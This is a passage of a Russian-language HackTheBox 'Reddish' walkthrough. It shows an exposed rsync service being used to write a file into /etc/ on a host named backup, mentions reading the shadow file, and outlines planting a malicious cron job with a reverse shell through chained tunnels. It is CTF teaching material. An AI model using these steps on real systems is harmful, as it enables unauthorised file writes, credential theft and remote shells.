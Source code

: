 ![www-rsync-read-shadow.png](/assets/images/htb/machines/reddish/www-rsync-read-shadow.png)
{:.center-image}

А также записать любой файл в любую директорию на `backup`.

```
www-data@www:/tmp$ echo 'HELLO THERE' > .test
www-data@www:/tmp$ rsync -a .test rsync://backup:873/etc/
-rw-r--r--             12 2020/02/02 16:25:49 .test
```

![www-rsync-write-test-file.png](/assets/images/htb/machines/reddish/www-rsync-write-test-file.png)
{:.center-image}

Попробуем таким образом получить шелл: я создам вредоносную задачу cron с реверс-шеллом, запишу ее в `/etc/cron.d/` на сервере `backup` и поймаю отклик на Kali. Но у нас очередная проблема сетевой доступности: `backup` умеет говорить только с `www`, а `www` только с `nodered`... Да, ты правильно понимаешь, придется строить **цепочку** туннелей: от `backup` до `www`, от `www` до `nodered` и от `nodered` до Kali.

